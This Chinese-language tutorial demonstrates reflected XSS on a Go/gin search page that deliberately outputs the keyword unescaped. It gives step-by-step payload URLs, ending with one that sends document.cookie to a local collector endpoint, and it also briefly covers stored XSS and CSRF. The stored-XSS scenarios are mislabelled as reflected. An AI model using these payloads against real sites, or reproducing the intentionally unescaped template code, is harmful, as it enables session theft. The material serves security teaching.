 在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞；

本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空"`
}

func (ctr *Article) Search(c *gin.Context) {

	request := new(request.ArticleSearch)
	if err := c.Validate(request); err != nil {
		panic(err)
	}

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
		"keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串，默认会自动对特殊符号转义，
	})
}
```
[源码链接](https://github.com/wizardshan/elegantGo/tree/main/app/chapter3.0)

正常传参请求：

```
http://127.0.0.1:8080/article/search?keyword=手机
```
<img src="images/2-1.jpg">

#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?keyword=<script>alert('XSS')</script>
```
<img src="images/2-2.jpg">

#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>alert(document.cookie)</script>
```
<img src="images/2-3.jpg">

#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>document.write('<img src="http://127.0.0.1:8080/cookies?'+document.cookie+'"/>')</script>
这里的+号有问题，转义一下
http://127.0.0.1:8080/article/search?keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```
<img src="images/2-4.jpg">
服务器收集数据如下：
<img src="images/2-5.jpg">


2.1 反射型XSS

反射性XSS通常需要被攻击者点击对应的链接才能触发，且受到XSS Auditor、NoScript等防御手段的影响较大。

反射型xss应用场景：比如搜索、查询，接口调用，跳转，http头获取参数地理位置，cookie，id，referer等一切输入、输出的地方

2.2 存储型XSS
存储型XSS由于存储在数据库或其他持久性中间件中，所以用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发。

反射型xss应用场景：比如注册处、用户名、地址、头像等信息，用户反馈、留言、修改个人信息、发表文章、评论、转发、私信等一切输入输出的地方。


XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

CSRF（通常）发生在第三方域名。
CSRF攻击者不能获取到Cookie等信息，只是使用。


